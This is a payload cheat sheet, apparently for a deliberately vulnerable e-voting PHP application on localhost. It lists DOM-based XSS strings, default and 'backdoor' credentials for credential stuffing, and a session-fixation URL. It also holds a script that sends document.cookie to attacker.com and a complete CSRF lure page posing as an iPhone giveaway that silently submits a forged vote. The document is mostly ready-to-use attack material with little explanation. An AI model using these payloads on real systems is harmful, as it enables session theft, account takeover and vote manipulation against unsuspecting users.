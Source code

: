 ### DOM-Based XSS
```javascript
// In URL parameters
?candidate=<script>alert('XSS')</script>
?name=<img src=x onerror=alert(1)>

// Hash-based
#<script>alert('XSS')</script>

// JavaScript URL
javascript:alert('XSS')
```

---

## 🔐 Authentication Attacks

### Credential Stuffing
```
Common username/password combinations to try:
admin:admin
admin:password
administrator:password
root:root
admin:admin123
Admin187:password187  (known from source)
backdoor:secret123    (hidden backdoor)
```

### Session Hijacking
```javascript
// Steal session cookie
<script>document.write('<img src="http://attacker.com?cookie='+document.cookie+'">')</script>

// Session fixation
http://localhost:8181/evoting/login1.php?PHPSESSID=attacker_controlled_session
```

---

## 🛡️ CSRF Payloads

### Vote Manipulation CSRF
```html
<!DOCTYPE html>
<html>
<head><title>Free iPhone Giveaway!</title></head>
<body>
<h1>Congratulations! You won!</h1>
<form action="http://localhost:8181/evoting/electioninfo2016.php" method="POST" id="csrf">
    <input type="hidden" name="president" value="AttackerCandidate">
    <input type="hidden" name="VoterId" value="50001">
    <input type="hidden" name="StateNum" value="1">
    <input type="hidden" name="submit" value="Submit">
</form>
<script>document.getElementById('csrf').submit();</script>
<p>Processing your prize...</p>
</body>
</html>
```
